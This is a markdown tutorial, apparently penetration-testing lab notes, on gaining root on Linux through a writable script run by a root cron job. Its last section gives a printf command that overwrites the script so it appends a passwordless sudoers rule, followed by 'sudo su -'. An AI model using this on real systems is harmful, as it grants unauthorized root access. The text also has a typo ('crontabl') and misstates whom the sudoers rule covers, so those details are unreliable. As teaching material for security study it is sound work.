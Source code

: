 # Privilege Escalation: Misconfigured Cron Jobs

## Contents
- [Intro](#intro)
  - [Cron Jobs](#cron-jobs)
  - [Exploiting Misconfigured Cron Jobs](#exploiting-misconfigured-cron-jobs)
- [Practical :: Process](#practical--process)
  - [Scenario](#scenario)
  - [Objective](#objective)
  - [List the cron jobs](#list-the-cron-jobs)
  - [Find a Misconfiguration](#find-a-misconfiguration)
  - [Modify & Exploit](#modify--exploit)

## Intro

### Cron Jobs
- Linux implements task scheduling through a utility called cron.
- `cron` is a time-based service that runs applications, scripts, and other commands repeatedly on a specified schedule.
- An application or script that has been configured to be run repeatedly with cron is known as a cron job.
  - `cron` can be used to automate or repeat a wide variety of functions on a system (from daily backups to system upgrades and patches).
- The `crontab` file is a configuration file that is used by the `cron` utility to store and track cron jobs that have been created.

### Exploiting Misconfigured Cron Jobs
- cron jobs can also be run as any user on the system.
  - This is very important.
  - We will be targeting cron jobs that have been configured to be run as root.
- This is primarily because any script or command that is run by a cron job will run as root user and will consequently provide us with root access.
  - Find a shell script listed in crontab
  - Check that script's perms. If it is misconfigured and allows you to write to that file, you can modify it and put some exploit code in it.
- In order to elevate our privileges we will need to find and identify cron jobs scheduled by the root user or the files being processed by the cron job.

## Practical :: Process
> This was part of a lab, but it should be sufficient to replicate the concept in other contexts.

### Scenario
- You are already provided with access to the target system...
- You have access through an unpriviledged "student" account.
- Enum a bit: `whoami`, `groups student` (not much participation), `cat /etc/passwd`

### Objective
- We want root or sudo (either one will give us root privs and access)

### List the cron jobs
```
crontabl -l   # lists the cron jobs for the current user
```

### Find a Misconfiguration
- If a cron job has been set by root but it runs a file in a user's home directory, you may be able to find the script that root set up to run that file.
- If you can find the script, and if that script has perms allowing you to write, you can modify it and add malicious code.
- That code will run when the cron job runs.
- Example: A file named "message" sits in the student's home directory. Use `grep` to find calls to that file:
```
cd /
grep -rnw /usr -e "/home/student/message"
```
- `-r` : recursive; read all files under each directory in the path specified
- `-n` : number; preface each result with the line number of the file it's in
- `-w` : word; Select only those lines containing matches that form whole words
- `-e` : expression; search for the pattern provided (regEx)

### Modify & Exploit
- Assuming our grep search found `/usr/local/share/copy.sh' calls that message file.
- If that file is misconfigured to allow you to write, add this to it:
```
printf '#!/bin/bash\necho "student ALL=NOPASSWD:ALL" >> /etc/sudoers\n' > /usr/local/share/copy.sh
```
- That adds a rule to `/etc/sudoers` to allow anyone to execute anything as root, and then it sends that line to the script that cron will run.
- When cron runs that script, you get privileges to run anything you want:
```
sudo su -  # that'll get you root
```

